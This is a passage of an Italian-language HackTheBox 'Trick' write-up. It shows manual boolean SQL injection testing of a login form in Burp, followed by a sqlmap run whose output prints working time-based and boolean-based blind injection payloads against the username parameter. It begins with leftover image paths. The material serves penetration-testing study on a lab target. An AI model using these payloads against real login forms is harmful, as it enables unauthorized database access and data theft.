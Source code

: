 ![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/trick4.webp)

### SQL injection Manual

Oltre a un semplice bypass di autenticazione, cercherò di recuperare le informazioni utilizzando l'iniezione SQL. Troverò una richiesta nella cronologia di Burp in cui ho provato ad accedere con qualcosa come "admin" / "admin", fare clic con il tasto destro su quella richiesta e selezionare "Invia a ripetitore".

Il miglior tipo di SQLI è quando qualcosa dal DB viene restituito alla pagina. Sfortunatamente, non ce l'ho qui. Ma posso verificare la presenza di un'iniezione booleana. Aggiornerò il mio nome utente con qualcosa che contiene un true e vedrò che il risultato è "1":
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/trick5.png)
Quando imposto che 1=1 su qualcosa di falso, il risultato è diverso:
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/trick6.png)
Ciò significa che posso inserire query più complicate al posto di 1=1 e ottenere risposte sì/no.

### Identify Injection in sqlmap

In realtà ottenere dati da un'iniezione booleana cieca richiede molta forzatura bruta e sqlmap è lo strumento per farlo. Troverò una richiesta nella cronologia di Burp in cui ho provato ad accedere con qualcosa come "admin" / "admin", e la salviamola come login.req.

L'esecuzione di sqlmap con questa richiesta trova solo un'iniezione basata sul tempo:

```┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap  -r login.req --batch
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.6#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:00:08 /2023-07-21/

[10:00:08] [INFO] parsing HTTP request from 'login.req'
[10:00:09] [INFO] resuming back-end DBMS 'mysql'
[10:00:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8044 FROM (SELECT(SLEEP(5)))iJwa) AND 'gugB'='gugB&password=admin

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 6546=(SELECT (CASE WHEN (6546=6546) THEN 6546 ELSE (SELECT 3418 UNION SELECT 2270) END))-- -&password=admin
---
[10:00:09] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:00:09] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 10:00:09 /2023-07-21/
```